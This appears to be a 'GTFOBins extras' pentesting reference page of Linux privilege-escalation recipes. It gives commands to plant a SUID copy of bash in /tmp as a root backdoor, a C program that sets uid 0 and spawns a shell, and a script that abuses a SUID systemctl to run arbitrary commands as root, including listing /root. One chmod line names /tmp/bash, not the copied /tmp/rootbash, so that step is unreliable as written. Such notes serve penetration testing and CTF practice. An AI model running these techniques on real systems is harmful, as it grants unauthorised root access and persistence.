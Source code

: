 # GTFOBins - extras

Some scripts, utilities, notes... complementary to GTFOBins.

<hr class="sep-both">

## ⚡ Create a root bash

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1: with root executing 2 commands

```bash
$ cp /bin/bash /tmp/rootbash
```

Run **as root** (SUID executable, sudo...) the commands

```bash
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```bash
$ /tmp/rootbash -p
```
</div><div>

* ➡️ Version 2: with root executing an executable

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```bash
$ gcc xxx.c -o rootbash
```

Then, you have to execute `rootbash` as root, either using a misconfiguration in sudo, SUID, cron jobs...

</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script make it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```bash
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>